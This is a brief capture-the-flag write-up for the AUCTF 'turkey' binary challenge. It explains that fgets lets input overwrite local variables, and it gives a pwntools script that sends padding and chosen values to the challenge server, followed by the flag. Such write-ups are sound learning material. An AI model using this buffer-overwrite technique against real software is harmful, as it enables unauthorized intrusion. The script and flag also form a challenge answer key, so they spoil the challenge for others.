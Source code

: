 Main just call `vulnerable()`:

![img/thanksgiving_dinner_0.png](img/thanksgiving_dinner_0.png)

fgets allow us to overwrite the local variable. In order to get the flag we need to do that with values to pass the if condition.

Exploit:
```python
from pwn import *

payload = ('A'*16).encode()
payload += p32(0x2A)
payload += p32(0x77)
payload += p32(0x667463)
payload += p32(0xFFFFFFE7)
payload += p32(0x1337)

#p = process('./turkey')
p = remote('challenges.auctf.com', 30011)
print(p.recvuntil('got!\n\n').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
`auctf{I_s@id_1_w@s_fu11!}`
